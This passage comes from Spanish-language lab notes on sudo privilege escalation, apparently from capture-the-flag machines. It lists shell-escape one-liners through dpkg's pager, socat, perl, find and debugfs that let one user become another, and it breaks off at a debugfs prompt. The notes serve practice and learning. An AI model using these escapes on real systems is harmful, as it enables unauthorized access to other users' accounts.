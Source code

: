 forma 1 de cambiar a usuario gladys:

sudo -u gladys /usr/bin/dpkg -l find, se nos abre un menú interactivo y en la línea donde dice --More--, reemplazamos por:

!/bin/sh y listo somo el usuario gladys


forma 2:

si al ejecutar el comando anterior me sale este mensaje:

dpkg-query: no packages found matching find

entonces escalamos de la siguiente manera:

sudo -u gladys /usr/bin/dpkg -l, se nos abre un menú interactivo y en la línea donde dice --More--, reemplazamos por:

!/bin/sh y listo somo el usuario gladys

-------------------------------------------------------------------------------

24.-	/usr/bin/socat

User nasa may run the following commands on 995cd3ed7c7e:
    (elite) NOPASSWD: /usr/bin/socat


sudo -u elite /usr/bin/socat stdin exec:/bin/sh


listo somos elite

-------------------------------------------------------------------------------

25.-	/usr/bin/perl

User vaxei may run the following commands on cbf14c17920d:
    (luisillo) NOPASSWD: /usr/bin/perl

sudo -u luisillo /usr/bin/perl -e 'exec "/bin/sh";'

-------------------------------------------------------------------------------

26.-	/usr/bin/find

User www-data may run the following commands on 99b5831516fa:
(rafa) NOPASSWD: /usr/bin/find

sudo -u rafa /usr/bin/find . -exec /bin/sh \; -quit

-------------------------------------------------------------------------------

27.-	/usr/sbin/debugfs

User rafa may run the following commands on 99b5831516fa:
    (ruben) NOPASSWD: /usr/sbin/debugfs

sudo -u ruben /usr/sbin/debugfs

se abre algo parecido a esto:

debugfs 1.47.0 (5-Feb-2023)
debugfs: *

